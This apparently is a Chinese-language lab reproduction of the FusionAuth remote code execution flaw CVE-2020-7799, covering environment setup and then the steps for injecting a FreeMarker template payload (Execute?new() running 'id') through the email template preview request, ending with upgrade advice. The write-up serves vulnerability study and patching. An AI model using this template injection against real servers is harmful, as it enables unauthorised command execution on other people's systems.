 # 简介

FusionAuth是一个免费的身份管理平台，安装简单，易于集成。FusionAuth提供登录、注册、MFA、SSO、电子邮件模板、本地化、密码控制、强哈希、网络挂钩、基于角色的访问控制等功能。

# **影响版本**

FusionAuth <= 1.11.0

# **环境搭建**

下载 FusionAuth 1.10.0

```
wget https://storage.googleapis.com/inversoft_products_j098230498/products/fusionauth/1.10.0/fusionauth-app-1.10.0.zip
```

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115651322.png)

```
wget https://www.elastic.co/cn/downloads/past-releases/elasticsearch-6-8-6
```

启动 MySQL /etc/init.d/mysql start

启动 ElasticSearch systemctl start elasticsearch.service

启动 FusionAuth bin/startup.sh

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115725147.png)

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115731850.png)

http://Your-ip:9011打开网站

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115743532.png)

配置 FusionAuth

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115757390.png)

配置 Elastic Search

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115808347.png)

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115814835.png)

![img](FusionAuthRCE(CVE-2020-7799).assets/202008021158222.png)

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115829505.png)

# ***漏洞复现***

进入 setting -> email template

然后编辑

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115843740.png)

点击 Preview,抓包

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115855502.png)

```
修改



emailTemplate.defaultHtmlTemplate



为



${"freemarker.template.utility.Execute"?new()("id")}
```

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115922512.png)

![img](FusionAuthRCE(CVE-2020-7799).assets/20200802115929407.png)

# **修复建议**

升级到最新版